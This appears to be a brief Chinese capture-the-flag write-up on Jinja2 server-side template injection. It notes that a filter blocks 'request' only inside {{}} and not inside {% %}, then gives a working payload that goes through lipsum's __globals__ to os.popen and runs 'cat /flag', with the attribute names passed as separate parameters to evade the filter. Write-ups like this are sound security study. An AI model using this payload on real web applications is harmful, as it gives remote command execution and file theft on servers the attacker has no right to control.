 # 知识点
过滤了request，但是是再{{}}中过滤了request，没有在{% %}过滤request
# 思路
```python
?name={%print(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read() %}&a=__globals__&b=os&c=cat /flag
```
